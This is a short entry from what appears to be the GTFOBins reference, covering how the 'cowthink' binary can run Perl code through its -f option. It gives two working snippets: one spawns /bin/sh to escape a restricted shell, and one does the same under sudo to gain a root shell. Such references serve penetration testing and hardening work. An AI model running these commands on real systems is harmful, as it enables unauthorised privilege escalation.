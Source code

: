 # GTFOBin: cowthink

It allows to execute `perl` code, other functions may apply.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
TF=$(mktemp)
echo 'exec "/bin/sh";' >$TF
cowthink -f $TF x
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
TF=$(mktemp)
echo 'exec "/bin/sh";' >$TF
sudo cowthink -f $TF x
```